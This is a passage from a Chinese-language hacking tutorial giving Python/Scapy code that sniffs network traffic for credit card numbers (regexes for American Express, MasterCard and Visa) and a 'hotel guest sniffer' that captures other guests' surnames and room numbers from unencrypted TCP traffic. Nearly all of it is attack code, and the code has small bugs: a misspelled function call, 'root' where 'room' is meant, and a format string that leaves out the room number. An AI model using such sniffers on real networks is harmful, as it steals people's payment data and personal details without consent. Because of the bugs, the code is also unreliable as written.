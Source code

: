最常用的三种信用卡：Visa、MasterCard 和 American Express，登录 `http://www.regular-expressions.info/creditcard.html`，其中会提供其他银行的信用卡卡号的正则表达式。

American Express 信用卡由 34 或者 37 开头的 15 位数字组成。

```python
import re
def find_credit_card(raw):
    america_re = re.findall("3[47][0-9]{13}", raw)
    if america_re:
        print("[+] Found American Express Card: {}".format(america_re[0]))
        
def main():
    tests = []
    tests.append("I would like to buy 1337 copies of that dvd")
    tests.append("Bill my card: 378282246310005 for \$2600")
    for test in tests:
        fiind_credit_card(test)
```

类似地可以写出 MasterCards 和 Visa 信用卡卡号的正则表达式

```python
def find_credit_card(pkt):
    raw = pkt.sprintf("%Raw.load%")
    america_re = re.findall("3[47][0-9]{13}", raw)
    master_re = re.findall("5[1-5][0-9]{14}", raw)
    visa_re = re.findall("4[0-9]{12}(?:[0-9]{3})?", raw)
    if america_re:
        print("[+] Found American Express Card: {}".format(america_re[0]))
    if master_re:
        print("[+] Found MasterCard Card: {}".format(master_re[0]))
    if visa_re:
        print("[+] Found Visa Card: {}".format(visa_re[0]))
```

### 嗅探宾馆住客

使用 Python 来截取酒店里其它住客的信息。

```python
conf.iface = "mon0"
try:
	print("[*] Starting Hotel Guest Sniffer.")
    sniff(filter="tcp", prn=find_guest, store=0)
except KeyboardInterrupt:
    exit(0)
```

接下来构造正则表达式匹配所有以 `LAST_NAME` 开头，并以 `&` 结尾的字符串，这是宾馆住客房间号的正则表达式。

```python
def find_guest(pkt):
    raw = pkt.sprintf("%Raw.load%")
    name = re.findall("(?i)Last_NAME=(.*)&", raw)
    room = re.findall("(?i)ROOM_NUMBER=(.*)'", raw)
    if name:
        print("[+] Found Hotel Guest {}, Room #".format(name[0], root[0]))
```
